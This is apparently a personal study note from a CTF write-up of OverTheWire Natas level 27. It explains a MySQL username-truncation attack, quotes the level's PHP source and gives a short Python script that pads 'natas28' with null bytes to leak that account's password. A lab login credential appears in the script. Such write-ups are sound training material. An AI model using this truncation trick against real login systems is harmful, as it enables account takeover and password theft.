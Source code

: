
2024-08-03 14:07

Source: #natas #web 

Tags: [[SQL injection]] [[PHP]]

> [!NOTE]
> ### aka SQL Buffer overflow 

we have a login page
Basically, this code will check if the user exists in the database and if you got the right password, it will display the password. If the user does not exists, it will be created in the database

- HTML entities is PHP's notion and attempt to secure things down, like remove all the HTML entities if you were to try and do like cross-site scripting or inject HTML elements or JavaScript code into an input field's

- `mysql_real_escape_string` function is another PHP mitigation function that will try and lock down or protect a lot of regular sequel injection techniques

```php
function dumpData($link,$usr){ 
     
    $user=mysql_real_escape_string($usr); 
     
    $query = "SELECT * from users where username='$user'"; 
    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            while ($row = mysql_fetch_assoc($res)) {  
                //return print_r($row); 
                return print_r($row,true); 
            } 
        } 
    } 
    return False; 
} 
```
it will return a number of rows and if it's greater than 0 we have multiple results, so what it does is it does this while loop that it iterates through every single row (this is peculiar right?) because we only expected it to return one result like if there's only one user we're trying to login as a specific user that would probably just be one, but what if we are in the case if there are multiple results if there are multiple rows to look through

since the DB described has a 64 varchar size, we create a user named longer than the length that is setup.
we input a word with spaces that are more than 64 size and append some character in the end
the spaces are eventually truncated along with the character appended at the end 

we create a user named `"natas28" + " "*58 + "x"` and in the next request we ask for `natas28` and give the password that we used for our user. since MySQL will truncate the input to match the maximum field size. the server returns original natas28's password.  
##### In the old version of this level the above mentioned trick worked 
below is the code that works on the newer version 

```python
import requests
username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://natas27.natas.labs.overthewire.org/'  
session = requests.session()

response = session.post(url, data = {"username": "natas28" + "\x00"*58 +"x", "password": "12" },auth =(username,password))

response = session.post(url, data = {"username": "natas28" , "password": "12" },auth =(username,password))
print(response.text)
```

### References

awesome explanation - [OverTheWire Wargames :: Natas :: Level 27 (n0j.github.io)](https://n0j.github.io/2017/07/20/otw-natas-27.html)

writeups with correct answers - 
https://github.com/timruff/overthewire/blob/main/natas/natas27/exploit.py
https://www.youtube.com/watch?v=87BKWwGEF1Q

writeups with incorrect answers - 
https://www.youtube.com/watch?v=Y7WXxmWKfxs
https://axcheron.github.io/writeups/otw/natas/
https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/

https://sqltest.net/ - we can just experiment with sequel database and a quick and easy way without spinning up a server.